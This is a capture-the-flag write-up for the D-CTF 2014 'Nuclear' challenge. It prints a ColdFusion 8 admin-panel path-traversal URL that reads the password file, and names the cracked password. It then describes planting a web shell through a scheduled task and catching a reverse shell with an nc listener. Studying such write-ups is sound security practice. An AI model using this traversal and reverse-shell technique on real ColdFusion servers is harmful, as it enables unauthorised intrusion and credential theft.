

# D-CTF 2014: Exploit 100 – Nuclear

**Category:** Exploit
**Points:** 100
**Description:**

> 1947-1991 / 10.11.1.2. Don't forget to switch the VPN server.

## Write-up

Exploit the local path inclusion vulnerability in the ColdFusion admin panel:

```
http://10.11.1.2/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

This gets you an MD5 hash, which is the hash of the password `~Coldfusion`.

Now you can use the ColdFusion admin panel to add a ‘scheduled task’ to fetch your JSP/PHP/CFM shell and put it in a web-exposed directory. We used [a simple reverse shell](http://pastebin.com/09gpcxWL) in combination with `nc -v -n -l -p 4444`.

Once you have a shell, start digging. The flag is in `C:\Documents and Settings\admin\Desktop\paranoia.jpg` and looks like this:



The file name hints at [`paranoia.jar`](https://ccrma.stanford.edu/~eberdahl/Projects/Paranoia/) which is a steganography tool. Using that tool (or another stenography tool) with the provided image and the key `That's the most evilest thing I can imagine.` we find the flag:

```
The Cold War is over but Cold War thinking survives.
```

## Other write-ups and resources

* none yet
